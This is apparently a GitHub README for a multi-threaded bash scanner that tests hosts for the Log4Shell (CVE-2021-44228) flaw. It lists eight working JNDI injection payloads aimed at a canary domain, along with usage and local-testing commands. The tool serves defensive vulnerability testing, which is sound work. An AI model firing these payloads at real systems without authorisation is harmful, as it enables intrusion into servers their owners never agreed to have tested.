 # log4j-scan-turbo (Multi-threaded scanner)
Test for the log4j vulnerability ( CVE-2021-44228 ) across your external footprint.

This is a very fast, multi-threaded, log4j vulnerability tester.

## Details

- Pure bash scanner
- Uses nohup and curl to achieve multiple threads
- Curl configured to use a 3 second client to server maximum and six second total time setting.
- 48 parallel calls at a time
- Covers all jndi protocols
- HTTP GET/POST methods

## Example Use
```
git clone https://github.com/ssstonebraker/log4j-scan-turbo
cd log4j-scan-turbo
sudo ./log4j_CVE-2021-44228_tester.sh <INPUT_FILE> <CANARY_DOMAIN>
```

## Payloads
```
Payloads:
${jndi:ldap://<canary_domain>/a}
${jndi:ldaps://<canary_domain>/a}
${jndi:rmi://<canary_domain>/a}
${jndi:dns://<canary_domain>/a}
${jndi:corba://<canary_domain>/a}
${jndi:iiop://<canary_domain>/a}
${jndi:nis://<canary_domain>/a}
${jndi:nds://<canary_domain>/a}
```
## Methods
HTTP GET and HTTP POST are called on TCP 80/443 for each ip/domain provided in the input file

## Requirements
You will need:
1. An inputfile with a list of IP addresses/domains (one per line)
2. A Canary Token (see below)

### Input File
Your input file should consist of IP address and/or Fully Qualified Domain Names

Example:
```
foo.com
bar.com
10.1.100.50
127.0.0.1:5000
```

### Get a Canary Domain 
1. Browse to https://canarytokens.org/generate#
2. Selection Option "DNS"
3. Input Email Address
4. Input Comment
5. Hit "Create my Canary Token"

<img width="973" alt="image" src="https://user-images.githubusercontent.com/774940/145664156-fee98504-0a18-427c-8213-5f3818864a9a.png">

## False Positives
If you use egress SSL decryption + inspection this script may trigger false positives (as your IDS may before lookups on the canary token.. thus triggering it).

If this is the case then you are better off running it from a cloud instance that is not being inspected.

## Local Testing
Spin up a docker image of a vulnerable server:
```
docker run --name vulnerable-app -p 555:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
 
Use the script to test locally:
```
echo "localhost:555" > ips.txt
sudo ./log4j-scan-turbo.sh ips.txt <canary_domain>
```





